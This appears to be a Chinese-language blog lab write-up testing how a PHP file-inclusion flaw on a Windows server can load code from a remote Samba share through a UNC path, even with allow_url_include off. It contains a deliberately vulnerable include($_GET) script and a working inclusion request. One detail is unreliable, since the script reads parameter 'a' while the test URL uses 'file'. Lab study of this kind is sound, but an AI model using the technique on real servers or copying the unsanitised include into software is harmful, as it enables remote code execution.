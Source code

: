 ```yaml
---
title: 用SMB绕过php远程文件包含限制的实践测试
date: 2019-05-21 23:26:43
tags:
---
```


### 前言
看到freebuf上的《[RFI绕过URL包含限制Getshell](https://www.freebuf.com/articles/web/203442.html)》和先知社区上的《[通过SMB造成远程文件包含（双Off情况）](https://xz.aliyun.com/t/5139)》这两篇文章，说是利用SMB协议可以绕过php对远程文件包含的限制。

默认情况下，php.ini当中`allow_url_include`为`off`，是没有办法对一个文件包含漏洞进行远程文件包含的，更何况连`allow_url_fopen`都为`off`。

看完这两篇文章，可以想到PHP肯定是没有考虑到SMB协议`\\192.168.1.1\test.php`这种情况，认为这种情况是本地文件路径，但是在支持SMB客户端的系统下却成了远程文件包含漏洞。

同时我第一时间想到这里用的特性，实际上和[MySQL利用DNS实现注入总结](https://l4yn3.github.io/2019/04/05/MySQL%E5%88%A9%E7%94%A8DNS%E5%AE%9E%E7%8E%B0%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)是一样的，应该都是在Windows web server下才能触发的漏洞。

### 实际测试
#### 1. 在CentOS 7 下搭建SAMBA服务
SambaA: `192.168.31.140`为Centos 7 的samba服务器

WinWebB: `192.168.31.139`Windows 10 的PHP WEB Server


![](/uploads/smb1.png)

编辑smb配置文件

```
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[icatest]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
~
```

重启smb服务

```
service smb restart
```

发现其他机器访问不到，iptables在作怪，将445和139端口加入白名单

```
iptables -I INPUT 1 -p tcp --dport 445 -j ACCEPT
iptables -I INPUT 1 -p tcp --dport 139 -j ACCEPT
```

在其它机器上nmap查看端口，可以发现445端口了，安装成功。

在另外一台windows 10主机上运行处输入`\\192.168.31.140\icatest\`可以匿名访问。

#### 2. 在SMB共享目录里写入phpinfo测试文件
SambaA共享目录`/var/www/html/pub/`下执行：

```
touch shell.php
```
内容为：

```
<?php
phpinfo();
```

在WinWebB下运行处输入`\\192.168.31.140\icatest\`打开发现共享目录没有内容，可以刚才我们明明写入了`shell.php`。是SecLinux在作怪：

在SambaA命令行输入

```
setenforce 0
```
关闭seclinux发现出现`shell.php`了。

![](/uploads/smb3.png)


### 3. 测试远程文件包含

在WinWebB机器上的web目录里写入php文件`test.php`

```
<?php
include($_GET['a']);
```

接着关闭php.ini的`allow_url_include`为`off`和`allow_url_fopen`

访问`http://localhost/test.php?file=\\192.168.31.140\icatest\shell.php`

文件包含成功。

![](/uploads/smb4.png)

### 4. 更换Web Server平台为Mac

利用smb可以再刚才的WinWebB 的 Windows 10机器上成功的进行了远程文件包含。

我们现在更换Web Server为Mac试一下。

在MacWeb Server C 下同样执行`3`中的操作。

然后访问`http://localhost/test.php?file=\\192.168.31.140\icatest\shell.php`直接报错。

![](/uploads/smb2.png)


### 5. 结论

如同开始所预想的，这个漏洞和[MySQL利用DNS实现注入总结](https://l4yn3.github.io/2019/04/05/MySQL%E5%88%A9%E7%94%A8DNS%E5%AE%9E%E7%8E%B0%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)一样，还是利用了Windows 平台对于SMB支持的特性。在默认不支持SMB协议的Linux和Unix平台无法利用。

凡事要自己动手测试，才能得到真正结论。

